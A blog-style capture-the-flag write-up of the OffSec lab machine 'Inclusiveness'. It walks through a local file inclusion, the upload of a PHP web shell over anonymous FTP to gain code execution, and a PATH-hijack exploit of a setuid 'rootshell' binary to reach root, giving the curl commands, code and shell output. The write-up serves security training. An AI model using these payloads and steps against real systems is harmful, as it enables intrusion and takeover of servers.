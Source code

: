 ```yaml
---
title: "Proving grounds Play: Inclusiveness"
layout: post
date: 2023-09-22 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.168
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 061ba39283a57a15bd406e0c8d98277b (RSA)
|   256 cb3883261a9fd35dd3fe9ba1d3bcab2c (ECDSA)
|_  256 6554fc2d12ace184783e0023fbe4c9ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Inclusiveness/web.png)

## Directory Fuzzing

robots.txt file shows `You are not a search engine! You can't read my robots.txt!`. The restriction can be bypassed by changing the useragent in the request to `GoogleBot`.

![img](/assets/images/CTF/Proving_Grounds/Inclusiveness/curl.png)

## /secret_information/

![img](/assets/images/CTF/Proving_Grounds/Inclusiveness/SI.png)

Upon clicking the `english` language button the website fetches the `en.php` file, which can be abused to read local files in the system.

## LFI Vulnerability

Send below curl command to obtain `/etc/passwd`.

```sh
curl -s -A GoogleBot http://192.168.193.14/secret_information/?lang=/etc/passwd -i

HTTP/1.1 200 OK
Date: Fri, 22 Sep 2023 07:59:18 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 2191
Content-Type: text/html; charset=UTF-8

<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

## Escalate LFI to RCE

### PORT 21: FTP

The FTP service allows anonymous login with write access to the `pub` folder. Create a php remode code execution code as below and save as shell.php.

```php
<?php
system($_GET['cmd']);
?>
```

Login to the FTP server using `anonymous` as login and password. Use the `put` command to upload the shell. Once it's uploaded send the curl request as below to check the remote code execution.

```sh
curl -s -A GoogleBot "http://192.168.193.14/secret_information/?lang=/var/ftp/pub/shell.php&cmd=id"

HTTP/1.1 200 OK
Date: Fri, 22 Sep 2023 08:09:36 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 200
Content-Type: text/html; charset=UTF-8

<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now obtain a reverse shell by checking the `python` version and using a python reverse shell.

**Initial Foothold Obtained**

## Privilege Escalation

Upon searching the user `tom` home directory there is a file named `rootshell` which is a compiled binary which can be run as root the owner of the file.

```sh
0K drwx------ 10 tom  tom  4.0K Feb  8  2020 .cache
 20K -rwsr-xr-x  1 root root  17K Feb  8  2020 rootshell
4.0K -rw-r--r--  1 tom  tom   448 Feb  8  2020 rootshell.c
4.0K -rw-------  1 tom  tom   684 Feb  8  2020 .ICEauthority
4.0K drwx------  3 tom  tom  4.0K Feb  8  2020 .gnupg
4.0K drwx------ 10 tom  tom  4.0K Feb  8  2020 .config
```

By running this binary will provide root shell.

### rootshell.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}
```

The above c code is the one that has been compiled as `rootshell` binary. The vulnerability exists on the line 8 in where the program checks the user through `whoami` file and if the user is `tom` the program will grant access to root shell.

In order to exploit the vulnerability, the name `tom` should be printed on the whoami file and the PATH to the location of the whoami file should present as the first path where the system would check for the file named whoami.

### Exploitation

The vulnerability can be exploited as follows.

```sh
www-data@inclusiveness:/tmp$ ls
ls
www-data@inclusiveness:/tmp$ echo "printf "tom"" > whoami #code to print tom
echo "printf "tom"" > whoami
www-data@inclusiveness:/tmp$ chmod 777 whoami #make the code executable for everyone
chmod 777 whoami
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH #this ensures the /tmp is set as first in PATH variable
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ echo $PATH #check the PATh
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin #confirm /tmp has been set as first
www-data@inclusiveness:/tmp$ cd /home/tom
cd /home/tom
www-data@inclusiveness:/home/tom$ ./rootshell #run the compiled binary
./rootshell
checking if you are tom...
you are: tom
access granted.
# whoami
whoami
tom# id
id
uid=0(root) gid=33(www-data) groups=33(www-data) #root obtained
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).